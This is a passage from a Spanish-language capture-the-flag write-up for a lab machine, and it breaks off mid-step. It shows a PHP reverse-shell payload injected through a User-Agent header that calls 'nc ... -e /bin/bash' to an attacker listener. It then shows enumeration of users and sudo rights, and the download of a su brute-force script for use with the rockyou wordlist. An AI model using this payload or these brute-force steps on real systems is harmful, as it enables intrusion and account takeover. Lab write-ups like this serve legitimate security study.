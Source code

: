 ```shell
curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('nc 172.17.0.1 4444 -e /bin/bash'); ?>"
```

Nos ponemos a la escucha y recargamos:

```shell
❯ nc -nlvp 4444
Connection from 172.17.0.2:58926
```

## Escalada

Una vez dentro, tenemos **2** usuarios y root: 
```shell
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
maci:x:1000:1000:macimo,,,:/home/maci:/bin/bash
nova:x:1001:1001:nova,,,:/home/nova:/bin/bash
```

Como **www_data** podemos ejecutar **/opt/password_nova** como el usuario **nova**:

```shell
sudo -l
Matching Defaults entries for www-data on 8a2a93c39823:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 8a2a93c39823:
    (nova : nova) NOPASSWD: /opt/password_nova
┌──[www-data@8a2a93c39823]─[/var/www/subdominio]
```

Al ejecutarlo nos chiva que la contraseña se encuentra en el rockyou por lo que tenemos que hacer bruteforece.

```shell
sudo -u nova /opt/password_nova
Escribe la contraseña (Pista: se encuentra en el rockyou ;) ): 	
```

Me descargo **suBF** en la máquina víctima:

```shell
wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh
```

Ahora me traspaso el rockyou:
